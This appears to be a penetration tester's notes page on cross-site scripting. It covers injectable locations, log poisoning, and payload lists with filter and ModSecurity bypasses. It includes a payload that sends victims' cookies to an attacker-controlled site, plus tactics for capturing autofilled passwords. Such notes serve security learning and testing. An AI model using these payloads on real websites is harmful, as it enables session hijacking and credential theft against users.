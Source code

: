 # XSS/Cross Site Scripting

{% embed url="https://github.com/s0md3v/AwesomeXSS" %}

## XSSable Locations

### In the Document

XSS can occur as a result of the following things:

* The attacker can inject certain HTML tags
  * The simplest example is the `<script>` tag, but others can also work, such as `<img src=x onerror=alert(1)>`
* The attacker can inject text in between certain tags or in certain fields
  * The same as above, but instead of injecting the tag, the tag already exists, and the attacker is able to write text in between the tag.
  * For example, there's a `<img src=ATTACKER_INPUT_HERE>` tag, and the attacker injects `x onerror=alert(1)`
* The attacker can inject a malicious URL.
  * For example, `<a href="javascript:alert(1)">click me</a>`

### Log Poisoning

You can try to sneak XSS payloads into logs. If the application that views the logs treats input insecurely, then it might result in XSS.

If the User-Agent header is logged, then putting the payload there would be an easy way to get javascript into the log file.

## Payload Variations

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)

Here are some common ones:

```
# Normal script tags
<script>alert(1)</script>

# HTML attributes, like img onerror
<iMg src=x onerror=prompt(1337);>

# XSS in between tags
<img src="/static/loading.gif" onload="startTimer('{{ timer }}');" />     ← injecting ‘);alert(‘xss 

# Iframe xss, bypasses some sanitizers if “srcdoc” attribute is allowed
<iframe srcdoc="&lt;img src=x:x onerror=alert(1)&gt;"></iframe>
```

## Stealing Things

### Catch and Store Stolen Credentials

### Cookies

If cookies are configured to be accessible via Javascript (no **HttpOnly** flag), then you can just fetch the cookie and do a GET request to a site you control:

```
<iMg src=x oNerRor=this.src='https://mysite.com/somepage?creds='+document.cookie>
```

If you need a site for catching cookies, then [https://requestcatcher.com/](https://requestcatcher.com) should be useful.

### Passwords

TODO: Link phishing page under Social Engineering or Web App Hacking?

You can capture a user's password. For example:

1. You can display a login page to the user and capture their password if they choose to enter it.
2. If the victim’s browser has remember password enabled, you can put a login form on the page, wait 1 second while the browser pastes their password there and then capture that.

## Filter Bypassing

### Multiple Fields Method

Works for **Chrome XSS Auditor** and many other filters. The bypass works by having two query parameters that you can inject into. When you combine the two injections, then a valid javascript payload is formed, and the XSS auditor doesn't detect it.

For example, the first parameter:

```
<script>alert("hi
```

The second parameter:&#x20;

```
");</script>
```

More bypasses: [https://www.youtube.com/watch?v=8GwVBpTgR2c](https://www.youtube.com/watch?v=8GwVBpTgR2c)

### Global Variables

[https://materials.rangeforce.com/tutorial/2019/10/23/ModSecurity-Filter-Evasion/](https://materials.rangeforce.com/tutorial/2019/10/23/ModSecurity-Filter-Evasion/)

This works for weak (default) **ModSecurity** rulesets.

Simple example:

```
<scirpt>self["alert"]("foo");</script>
```

### Nested Payloads

If malicious input is stripped only once, then try nested payloads:

```
<scri<script>pt>alert(1)</scri</script>pt>
```

### Various Payloads

Here are some more interesting payloads:

```
# Iframe XSS
<iframe srcdoc="&lt;img src=x:x onerror=alert(1)&gt;"></iframe>

# Against server-side parsers, this was an XSS in Google
<noscript><p title="</noscript><img src=x onerror=alert(1)>"> 

# CRLF injection to bypass javascript: being blacklisted
java%0d%0ascript%0d%0a:alert(0)

# incase svg onload= is filtered, the %0d acts as a seperator and can sometimes confuse wafs.
# %0a %0c %09 %00 are also common separators to use here.
<svg%0donload=prompt(1)>

# Uncommon XSS vector
<input onfocus=alert(0) autofocus>

# The use of \\ will break out of a quote inside a script tag
\\"-alert(0);//

# onmouseenter is like onmouseover, and confirm is like prompt
"onmouseenter=confirm(1)>
```





###





